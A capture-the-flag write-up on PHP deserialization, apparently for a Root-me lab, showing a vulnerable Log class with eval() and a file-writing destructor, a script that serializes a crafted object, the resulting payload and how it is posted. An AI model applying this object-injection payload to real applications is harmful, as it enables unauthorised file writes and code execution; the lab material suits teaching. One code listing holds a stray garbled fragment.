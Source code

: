 # Php DeSerialization / Object Injection

Hello readers, Hope your doing good :) , 

So let's have a look at this vulnerability in php which leads to "Remote Code Execution" 

i will be demonstrating this vulnerability on a online lab /dev/random - pipe from Root-me.org

So what is Php DeSerialization?

PHP Object Injection (Php DeSerialization) is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

Lets just get onto the challenge.

After running gobuster for few minutes i found a directory named /scriptz/ 
which has 2 files php.js and log.php.bak

![](1.png)
 
![](2 .png)

that's what php.js does 

now we look at log.php,bak 


## Actual Code lol.php.bak

```
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
	$this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";where as
	$now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
	file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}

?>
```

We can see in the above class Log() we have a public variable called $filename  and  $data whereas filename="whatever you like" and data = "whatever you want to put in your file" 

So now we have a to create a object for class Log() and serialize the output 

## Modified Code

```
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
	$this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
	$now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
	file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
$obj = new Log();
$obj -> filename = 'hacker';
$obj -> data = 'hacked';
echo serialize($obj);
?>

```
###  object:
```
$obj = new Log();
$obj -> filename = 'hacker';
$obj -> data = 'hacked';
echo serialize($obj); 
```
we have created a object with new Log();  and we have set the file name to "hacker" and data as hacked and then we use `echo serialize($obj); `  to get the serialized output.

output:
`O:3:"Log":2:{s:8:"filename";s:6:"hacker";s:4:"data";s:6:"hacked";}`

in the above serialized output we see that `O` is a letter (capital O) and :3: is the string size of "Log" `{s:8:"filename"` so here s stands for string and we see its 8 as filename has 8 letters , and rest others also have the same logic `s:6:"hacker";s:4:"data";s:6:"hacked";}`.

 Now we Look at the view-source, we see a post request with parameter name=param 

we send our payload in a post request in param= "payload" where as we have to encode the payload in url encoding once and and then click on Go.

we then goto /scriptz / directory and we can see our file there :)

 
